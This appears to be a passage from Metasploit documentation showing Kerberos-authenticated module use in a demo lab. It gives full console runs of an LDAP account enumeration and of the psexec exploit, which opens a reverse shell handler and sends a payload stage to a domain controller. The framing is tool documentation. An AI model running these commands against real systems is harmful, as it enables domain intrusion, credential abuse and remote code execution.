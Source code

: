 Query LDAP for accounts:

```msf
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > run action=ENUM_ACCOUNTS rhost=192.168.123.13 username=Administrator password=p4$$w0rd ldap::auth=kerberos ldap::rhostname=dc3.demo.local domain=demo.local domaincontrollerrhost=192.168.123.13
[*] Running module against 192.168.123.13

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:389 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_216797.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:389 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_638903.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] Discovering base DN automatically
[+] 192.168.123.13:389 Discovered base DN: DC=adf3,DC=local
CN=Administrator CN=Users DC=adf3 DC=local
==========================================

 Name                Attributes
 ----                ----------
 badpwdcount         0
 description         Built-in account for administering the computer/domain
 lastlogoff          1601-01-01 00:00:00 UTC
 lastlogon           2023-01-23 11:02:49 UTC
 logoncount          159
 memberof            CN=Group Policy Creator Owners,CN=Users,DC=domain,DC=local || CN=Domain Admins,CN=Users,DC=domain,DC=local |
                     | CN=Enterprise Admins,CN=Users,DC=domain,DC=local || CN=Schema Admins,CN=Users,DC=domain,DC=local || CN=Adm
                     inistrators,CN=Builtin,DC=domain,DC=local
 name                Administrator
 objectsid           S-1-5-21-3402587289-1488798532-3618296993-500
 pwdlastset          133189448681297271
 samaccountname      Administrator
 useraccountcontrol  512

 ... etc ...
```

Running psexec against a host:

```msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
```

[1]: http://web.mit.edu/KERBEROS/krb5-devel/doc/formats/ccache_file_format.html